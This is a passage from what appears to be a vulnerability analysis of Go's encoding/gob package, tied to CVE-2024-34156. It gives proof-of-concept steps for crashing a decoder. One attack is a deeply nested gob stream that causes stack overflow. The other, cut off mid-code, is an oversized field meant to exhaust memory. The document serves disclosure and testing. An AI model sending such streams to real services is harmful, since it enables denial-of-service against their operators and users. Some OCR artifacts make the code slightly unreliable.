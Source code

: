     	// Output the malicious gob stream to a file or stdout
    	os.Stdout.Write(buffer.Bytes())
    }
    ```
    
    1. **Generate Malicious Gob Stream**: Run the encoder program and save its output. This output is the malicious gob stream. The key is the `depth` variable, which should be set high enough to exceed the target's call stack limit during decoding.
    2. **Vulnerable Decoder Program**: Use a simple Go program that reads this gob stream and attempts to decode it into the `RecursiveNode` struct (similar to the "Vulnerable Code Snippet" in Section 8, ensuring it uses the same `RecursiveNode` definition)
    
    ```go
    //... (imports and RecursiveNode struct definition as above)...
    // func main() {
    //     maliciousData, _ := io.ReadAll(os.Stdin) // Read from PoC encoder output
    //     var decodedNode RecursiveNode
    //     decoder := gob.NewDecoder(bytes.NewReader(maliciousData))
    //     err := decoder.Decode(&decodedNode) // This line is expected to panic
    //     if err!= nil {
    //         log.Fatalf("Decode failed (or panic occurred): %v", err)
    //     }
    // }
    ```
    
- **Expected Result**: The vulnerable decoder program will panic with a runtime error indicating a stack overflow (e.g., `runtime: goroutine stack exceeds limit`).
- **Note on Ignored Fields**: The fix for CVE-2024-34156 highlighted that even deeply nested *ignored* fields could cause stack exhaustion. This means an attacker might not need the target struct to perfectly match the deeply nested structure in the gob stream. If the decoder internally recurses while processing type information for fields it intends to skip, the attack can still succeed. A PoC could also test this by sending a deeply nested structure where the field names do not match those in the decoder's target struct.

**2. PoC for Memory Exhaustion**

This PoC demonstrates how a gob stream defining a structure with a very large field can cause out-of-memory errors.

- **Objective**: Cause the target Go application to panic due to OOM, or become unresponsive due to excessive memory allocation and garbage collection pressure.
- **Method**:
    1. **Define a Large Data Structure (Encoder Side)**:
    
    ```go
    package main
    
    import (
    	"bytes"
    	"encoding/gob"
    	"os"
    )
    
    type LargePayload struct {
    	ID   string
    	Databyte // This field will be made very large
    }
    
